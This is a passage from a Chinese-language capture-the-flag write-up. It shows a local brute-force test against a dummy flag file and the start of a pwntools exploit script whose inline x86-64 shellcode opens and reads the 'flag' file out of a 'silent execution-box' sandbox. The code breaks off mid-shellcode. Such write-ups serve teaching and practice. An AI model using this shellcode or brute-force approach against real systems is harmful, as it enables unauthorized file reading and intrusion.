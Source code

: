 然后就是在本地测试一下脚本是否正常了  
我在本地flag文件夹里写了个flag：flag\_is\_not\_here，然后开始爆破

[![](assets/1703640353-c72b11ab8726de7850713a656182ebbd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191813-4b5967f8-a317-1.png)  
可以看到爆出来了，但是写的长度太长了，会继续往下爆破

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
#context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

def exp(dis,char):
    p.recvuntil("Welcome to silent execution-box.\n")
    shellcode = asm('''
        mov r12,0x67616c66
        push r12
        mov rdi,rsp
        xor esi,esi
        xor edx,edx
        mov al,2
        syscall
        mov rdi,rax
        mov rsi,0x10700
        mov dl,0x40
        xor rax,rax
```